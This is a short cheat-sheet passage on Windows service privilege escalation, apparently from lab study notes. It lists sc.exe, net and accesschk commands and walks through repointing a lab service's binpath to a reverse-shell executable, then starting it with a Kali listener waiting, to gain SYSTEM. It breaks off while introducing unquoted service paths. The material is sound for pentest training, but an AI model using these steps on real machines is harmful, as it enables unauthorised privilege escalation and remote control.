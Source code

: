 #### Query the current status of a service:
```
sc.exe query <SERVICE NAME>
```

#### Modify a configuration option of a service:
```
sc.exe config >NAME> <OPTION>= <VALUE>
```

#### Start/Stop a service:
```
net start/stop <SERVICE NAME>
```

### Service Exploits - Insecure Service Properties
Each service has an ACL which defines certain service-specific permissions. Some permissions are innocuous (e.g. SERVICE_QUERY_CONFIG, SERVICE_QUERY_STATUS). Some may be useful (e.g. SERVICE_STOP, SERVICE_START). Some are dangerous (e.g. SERVICE_CHANGE_CONFIG, SERVICE_ALL_ACCESS).

If our user has permission to change the configuration of a service which runs with SYSTEM privileges, we can change the executable the service uses to one of our own. Potential Rabbit Hole: If you can change a service configuration but cannot stop/start the service, you may not be able to escalate privileges!

#### Confirm with accesschk.exe
```
.\accesschk.exe /accepteula -uwcqv <USER> <SERVICE NAME>
```

#### Check the current configuration of the service:
```
sc qc daclsvc
```

#### Check current status of the service
```
sc query daclsvc
```

#### Reconfigure the service to use our reverse shell executable:
```
sc config daclsvc binpath= "\"C:\temp\reverse.exe\""
```

#### Start a listener on Kali, and then start the service to trigger the exploit:
```
net start daclsvc
```

### Unqouted Service Path
Executables in Windows can be run without using their extension (e.g. “whoami.exe” can be run by just typing “whoami”). Some executables take arguments, separated by spaces, e.g. someprog.exe arg1 arg2 arg3… This behavior leads to ambiguity when using absolute paths that are unquoted and contain spaces.
